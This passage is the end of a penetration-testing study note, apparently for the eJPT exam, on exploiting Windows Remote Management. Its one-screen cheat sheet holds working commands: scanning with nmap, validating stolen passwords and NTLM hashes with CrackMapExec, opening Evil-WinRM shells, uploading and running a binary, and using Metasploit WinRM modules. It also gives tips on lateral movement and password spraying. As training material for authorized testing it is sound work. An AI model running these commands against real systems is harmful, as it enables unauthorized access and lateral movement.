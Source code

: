 - File operations:
  - Safe writable locations: C:\Users\Public\ or C:\Windows\Temp.
- Troubleshooting:
  - If cme shows valid creds but commands fail, try Evil-WinRM; verify firewall and group membership.
  - If HTTP (5985) blocked but HTTPS (5986) open, switch to SSL options.

## Minimal cheat sheet (one-screen flow)
```
# 1) Discover
nmap -p 5985,5986 -sC -sV <TARGET>

# 2) Validate creds/hashes
cme winrm <TARGET> -u 'Administrator' -p 'Passw0rd!'
cme winrm <TARGET> -u 'Administrator' --hashes 'aad3b435b51404eeaad3b435b51404ee:NTHASH'

# 3) Quick command execution
cme winrm <TARGET> -u 'Administrator' -p 'Passw0rd!' -x 'whoami'

# 4) Interactive shell
evil-winrm -i <TARGET> -u 'Administrator' -p 'Passw0rd!'
evil-winrm -i <TARGET> -u 'Administrator' -H 'NTHASH'
evil-winrm -i <TARGET> -u 'Administrator' -p 'Passw0rd!' -S -P 5986

# 5) Post-exploitation basics (inside session)
whoami; hostname; systeminfo
Get-LocalGroupMember -Group Administrators
upload /home/kali/tool.exe C:\Users\Public\tool.exe
C:\Users\Public\tool.exe

# 6) Metasploit option
use auxiliary/scanner/winrm/winrm_login
use exploit/windows/winrm/winrm_script_exec
```

## Summary
- WinRM (ports 5985/5986) enables remote PowerShell and is a prime lateral-movement vector once you have valid credentials or hashes.
- Typical eJPT approach: confirm service with Nmap, validate creds with CrackMapExec, then get an interactive shell using Evil-WinRM for command execution and file transfer.
- Metasploit can help validate auth methods and obtain a Meterpreter via winrm_script_exec.
- Pay attention to domain vs local accounts, HTTPS vs HTTP, permissions, and account lockout when spraying.